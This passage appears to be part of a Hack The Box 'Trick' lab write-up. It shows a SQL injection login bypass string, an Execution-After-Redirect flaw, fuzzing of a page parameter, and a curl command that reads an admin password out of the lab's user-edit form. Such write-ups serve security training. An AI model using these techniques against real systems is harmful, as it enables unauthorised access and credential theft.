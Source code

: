 
`trick.htb`
Provides us with nothing, it's just a static page.

`preprod-payroll.trick.htb`

This is a bastion of great vulnerabilities.
The quickest one you might try is a SQL Injection.
`admin' or 1=1-- -`
But, in the even this didn't work, you can actually navigate the webpage with curl or burp's repeater as long you don't follow redirects, because of an Execution-After-Redirect (EAR) vulnerability. So you can just navigate the webpage in this manner. You can a list of links in the form of:
`index.php?page=`
You can fuzz that parameter and you would find a valid `users` page.

![users_page](../assets/posts/htb-trick/users_page.png)

![edit_users](../assets/posts/htb-trick/edit_users.png)

And then you can just do something like this:
```bash
curl -i -s http://preprod-payroll.trick.htb/manage_user.php?id=1 | grep 'input'
                <input type="hidden" name="id" value="1">
                        <input type="text" name="name" id="name" class="form-control" value="Administrator" required>
                        <input type="text" name="username" id="username" class="form-control" value="Enemigosss" required>
                        <input type="password" name="password" id="password" class="form-control" value="SuperGucciRain
```
